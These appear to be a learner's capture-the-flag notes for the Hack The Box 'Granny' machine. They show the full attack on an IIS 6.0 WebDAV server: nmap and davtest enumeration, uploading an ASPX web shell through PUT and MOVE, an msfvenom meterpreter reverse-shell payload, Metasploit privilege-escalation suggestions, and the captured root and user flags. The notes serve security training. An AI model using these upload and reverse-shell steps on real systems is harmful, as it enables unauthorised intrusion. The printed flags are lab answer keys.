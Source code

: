 └─$ nmap -sV -sC  10.10.10.15 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-22 12:16 EST
Nmap scan report for 10.10.10.15
Host is up (0.29s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Wed, 22 Feb 2023 17:17:04 GMT
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|_http-title: Under Construction
|_http-server-header: Microsoft-IIS/6.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.08 seconds
``
200      GET       39l      159w     1433c http://10.10.10.15/
301      GET        2l       10w      149c http://10.10.10.15/images => http://10.10.10.15/images/
301      GET        2l       10w      158c http://10.10.10.15/aspnet_client => http://10.10.10.15/aspnet%5Fclient/
301      GET        2l       10w      153c http://10.10.10.15/_private => http://10.10.10.15/%5Fprivate/
301      GET        2l       10w      155c http://10.10.10.15/_vti_log => http://10.10.10.15/%5Fvti%5Flog/
301      GET        2l       10w      155c http://10.10.10.15/_vti_bin => http://10.10.10.15/%5Fvti%5Fbin/
301      GET        2l       10w      149c http://10.10.10.15/Images => http://10.10.10.15/Images/
301      GET        2l       10w      149c http://10.10.10.15/IMAGES => http://10.10.10.15/IMAGES/
301      GET        2l       10w      158c http://10.10.10.15/Aspnet_client => http://10.10.10.15/Aspnet%5Fclient/
301      GET        2l       10w      153c http://10.10.10.15/_Private => http://10.10.10.15/%5FPrivate/
301      GET        2l       10w      158c http://10.10.10.15/aspnet_Client => http://10.10.10.15/aspnet%5FClient/
301      GET        2l       10w      158c http://10.10.10.15/ASPNET_CLIENT => http://10.10.10.15/ASPNET%5FCLIENT/
301      GET        2l       10w      153c http://10.10.10.15/_PRIVATE => http://10.10.10.15/%5FPRIVATE/
301      GET        2l       10w      155c http://10.10.10.15/_VTI_LOG => http://10.10.10.15/%5FVTI%5FLOG/

```

https://0xdf.gitlab.io/2019/03/06/htb-granny.html

using davtest

 davtest -url http://10.10.10.15
********************************************************
 Testing DAV connection
OPEN            SUCCEED:                http://10.10.10.15
********************************************************
NOTE    Random string for this session: j4T86AANdyjTW
********************************************************
 Creating directory
MKCOL           SUCCEED:                Created http://10.10.10.15/DavTestDir_j4T86AANdyjTW
********************************************************
 Sending test files
PUT     html    SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.html
PUT     aspx    FAIL
PUT     pl      SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.pl
PUT     php     SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.php
PUT     jsp     SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.jsp
PUT     txt     SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.txt
PUT     asp     FAIL
PUT     shtml   FAIL
PUT     cfm     SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.cfm
PUT     jhtml   SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.jhtml
PUT     cgi     FAIL
********************************************************
 Checking for test file execution
EXEC    html    SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.html
EXEC    pl      FAIL
EXEC    php     FAIL
EXEC    jsp     FAIL
EXEC    txt     SUCCEED:        http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.txt
EXEC    cfm     FAIL
EXEC    jhtml   FAIL

********************************************************
/usr/bin/davtest Summary:
Created: http://10.10.10.15/DavTestDir_j4T86AANdyjTW
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.html
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.pl
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.php
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.jsp
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.txt
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.cfm
PUT File: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.jhtml
Executes: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.html
Executes: http://10.10.10.15/DavTestDir_j4T86AANdyjTW/davtest_j4T86AANdyjTW.txt

check for upload

└─$ curl http://10.10.10.15/df.txt  
hi                                                                                            

file upload possible

cp /usr/share/webshells/aspx/cmdasp.aspx .

curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt


![](2023-02-24-13-56-38.png)

do with a meterpreter

msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=443 -f aspx > met.aspx

curl -X PUT http://10.10.10.15/met.txt --data-binary @met.aspx 

curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt

curl http://10.10.10.15/met.aspx

with multi handler ready

![](2023-02-24-14-04-44.png)

msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester 
msf6 post(multi/recon/local_exploit_suggester) > set session 1
session => 1
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 167 exploit checks are being tried...
[-] 10.10.10.15 - Post interrupted by the console user
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 167 exploit checks are being tried...
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Running check method for exploit 41 / 41
[*] 10.10.10.15 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/ms10_015_kitrap0d                        Yes                      The service is running, but could not be validated.                                                                                        
 2   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.                                                                                                       
 3   exploit/windows/local/ms14_070_tcpip_ioctl                     Yes                      The target appears to be vulnerable.                                                                                                       
 4   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.                                                                                                       
 5   exploit/windows/local/ms16_016_webdav                          Yes                      The service is running, but could not be validated.                                                                                        
 6   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.                                                                                                       
 7   exploit/windows/local/ppr_flatten_rec                          Yes                      The target appears to be vulnerable.      


 none of the exploits are giving me a shell

 ![](2023-02-24-14-22-14.png)

 the reason was incorrect lhost. that is why the shell was dying

 with correct lhost I got a root shell!

 ![](2023-02-24-14-25-12.png)

 C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
aa4beed1c0584445ab463a6747bd06e9

C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
700c5dc163014e22b3e408f8703f67d1
